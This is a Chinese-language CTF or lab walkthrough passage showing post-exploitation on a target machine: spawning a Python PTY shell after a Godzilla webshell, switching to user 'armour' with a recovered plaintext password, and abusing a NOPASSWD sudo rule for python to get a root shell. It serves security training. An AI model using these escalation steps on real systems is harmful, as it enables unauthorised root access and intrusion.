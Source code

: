 得到账号armour的密码，试试ssh连接

老办法哥斯拉转到msf再得到用python交互式shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

再su

```
www-data@mycmsms:/var/www/html/uploads/images$ su armour
su armour
Password: Shield@123
armour@mycmsms:/var/www/html/uploads/images$ whoami
whoami
armour
```

使用sudo -l，看看armour可以使用哪些以root身份进行的命令，如果这个命令可以调用bash之类的，就可以直接切到root身份，此时发现有python

```
armour@mycmsms:/var/www/html/uploads/images$ sudo -l
sudo -l
Matching Defaults entries for armour on mycmsms:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User armour may run the following commands on mycmsms:
    (root) NOPASSWD: /usr/bin/python
```

```
sudo python -c 'import pty; pty.spawn("/bin/bash")'
```

```
armour@mycmsms:/var/www/html/uploads/images$ sudo python -c 'import pty; pty.spawn("/bin/bash")'
<sudo python -c 'import pty; pty.spawn("/bin/bash")'
root@mycmsms:/var/www/html/uploads/images# whoami
whoami
root
```

大功告成
